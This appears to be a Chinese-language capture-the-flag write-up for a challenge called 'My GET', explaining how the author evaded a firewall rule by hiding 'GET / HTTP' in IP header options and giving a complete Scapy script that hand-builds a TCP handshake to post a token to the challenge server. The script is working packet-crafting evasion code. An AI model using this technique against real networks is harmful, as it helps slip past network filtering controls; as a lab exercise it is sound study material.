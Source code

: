 ## 我的 GET

规则要求包的前 50 字节必须出现 `GET / HTTP`。但是 TCP 的握手想要包含数据还挺麻烦的。

查看 IP 头的结构，发现后面可以加 options。一番学习总算构造出了合法的包。

```python
from scapy.all import *

sport = random.randint(1024, 65535)
init_seq = random.randint(0, 2**32 - 1)

token = 'xxx'

payload = '''POST / HTTP/1.1
Host: 202.38.93.111:18080
Accept: */*
User-Agent: curl
Content-Length: %d
Content-Type: application/x-www-form-urlencoded

%s''' % (len(token), token)

src = '192.168.24.2'
dst = '192.168.23.1'
dport = 18082
iface = 'hgovpn-guest'

opt = bytes([0x21, 14]) + b'\0' * 2 + b'GET / HTTP' + b'\0' * 2

# SYN
ip = IP(src=src, dst=dst, options=opt)
SYN = TCP(sport=sport, dport=dport, flags='S', seq=init_seq)
pkt = ip / SYN
print('send', pkt)
print('raw', bytes(pkt))
SYNACK = sr1(pkt, iface=iface)
print('recv', SYNACK)
print(SYNACK.ack, SYNACK.seq)
print('=' * 100)

# SYN-ACK
ACK = TCP(sport=sport, dport=dport, flags='AP', seq=SYNACK.ack, ack=SYNACK.seq + 1)
data = Raw(load=payload)
pkt = ip / ACK / data
print('send', pkt)
print('raw', bytes(pkt))
resp = sr1(pkt, iface=iface)
print('recv', resp)
print(resp.ack, resp.seq)
print(bytes(resp))
print('=' * 100)

ACK = TCP(sport=sport, dport=dport, flags='A', seq=resp.ack, ack=resp.seq + 1)
pkt = ip / ACK
print('send', pkt)
resp2 = sr1(pkt, iface=iface)
print('recv', resp2)
print(resp2.ack, resp2.seq)
print(bytes(resp2))
print('###', resp2[TCP].payload)
print('=' * 100)
```
